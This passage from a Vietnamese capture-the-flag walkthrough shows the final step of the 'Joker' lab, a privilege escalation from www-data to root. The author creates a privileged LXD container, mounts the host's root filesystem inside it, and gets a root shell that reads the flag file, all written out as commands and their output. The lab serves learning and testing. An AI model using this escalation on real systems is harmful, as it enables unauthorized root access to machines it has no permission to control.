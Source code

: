 Tạo container mới có tên __priv__ từ image __privesc__ 

```python
www-data@ubuntu:/tmp$ lxc init privesc priv -c security.privileged=true
lxc init privesc priv -c security.privileged=true
Creating priv
```

Mount container vừa tạo đến thư mục *root*

```python
www-data@ubuntu:/tmp$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to priv
```

Bây giờ thì chạy container này

```python
www-data@ubuntu:/tmp$ lxc start priv
lxc start priv
www-data@ubuntu:/tmp$ lxc exec priv /bin/sh
lxc exec priv /bin/sh
~ id
id
uid=0(root) gid=0(root)
~ ls /mnt/root/root
ls /mnt/root/root
final.txt
~ cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```

